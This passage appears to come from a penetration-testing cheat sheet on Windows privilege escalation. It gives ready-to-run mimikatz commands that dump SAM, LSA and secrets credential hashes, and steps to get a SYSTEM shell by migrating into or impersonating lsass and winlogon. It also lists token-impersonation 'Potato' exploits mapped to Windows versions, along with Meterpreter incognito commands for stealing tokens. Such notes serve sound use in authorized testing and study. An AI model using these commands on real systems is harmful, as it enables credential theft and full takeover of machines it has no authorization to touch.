 - SAM / LSA Dumping (steals *local* hashes -> users appearing in `net user`)

	```cmd
	mimikatz.exe '"privilege::debug" "token::elevate" "lsadump::sam"'
	mimikatz.exe'"privilege::debug" "token::elevate" "lsadump::lsa /patch"'
	mimikatz '"privilege::debug" "token::elevate" "lsadump::secrets /patch"'
	```

- SYSTEM Shell (RCE)

	- Meterpreter
		- `pgrep [winlogon/lsass]` &rarr; Get PID
		- `migrate [PID]`
	- Manual
		- `tasklist` &rarr;  Get `winlogon` or `lsass` PID
		- [Method 1](https://github.com/decoder-it/psgetsystem/blob/master/psgetsys.ps1)  → `. .\psgetsys.ps1; ImpersonateFromParentPid -ppid [PID] -command [CMD] -cmdargs [ARGS]`
		- [Method 2](https://github.com/bruno-1337/SeDebugPrivilege-Exploit)
		- [Method 3](https://github.com/dev-zzo/exploits-nt-privesc/blob/master/SeDebugPrivilege/SeDebugPrivilege.c)

#### SeImpersonate / SeAssignPrimaryToken

You must be a **Service Account:** `NT *` or a member of a group with name `SQL / IIS / NETWORK / LOCAL`

Get the [CLSID](https://github.com/ohpe/juicy-potato/tree/master/CLSID/Windows_Server_2008_R2_Enterprise):

1. Download and transfer CLSID.list
2. Transfer `~/TOOLS/PRIVESC_WINDOWS/clsid.bat`
3. Run in PS `Start-Process clsid.bat`
4. Get one of the `AUTHORITY\SYSTEM` 

Potatoes:

- Churrasco - Server 2003
- [JuicyPotato](https://github.com/k4sth4/Juicy-Potato/tree/main) - Server 2008 - 2016 - Win 10 < 1803
- [GodPotato](https://github.com/BeichenDream/GodPotato/releases) - Server 2012 - 2022
- [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) - Windows 10 / Server 2016 - 2019
- [GenericPotato](https://github.com/micahvandeusen/GenericPotato) - Windows 7 - 10 / Server < 2019
- [Hot Potato](https://github.com/Kevin-Robertson/Tater) - Windows 7 - 10 / Server 2008 - 2012 - PS Based
- [MultiPotato](https://github.com/S3cur3Th1sSh1t/MultiPotato) - When Others Fail → Useful for MSSQL
- Meterpreter shell (auto exploit, when the exploit is old), not stealthy
	- try `getsystem` directly
	- `load incognito` 
	- `list_tokens -u` -> Lists allowed users to impersonate
	- `impersonate_token [USER]` -> Double Backlashes for Username!

#### SeLoadDriver

It allows to **load and unload device drivers** with the creation of a registry entry with specific values for `ImagePath` (where the `.sys` driver file is located) and `Type` (kind of driver).
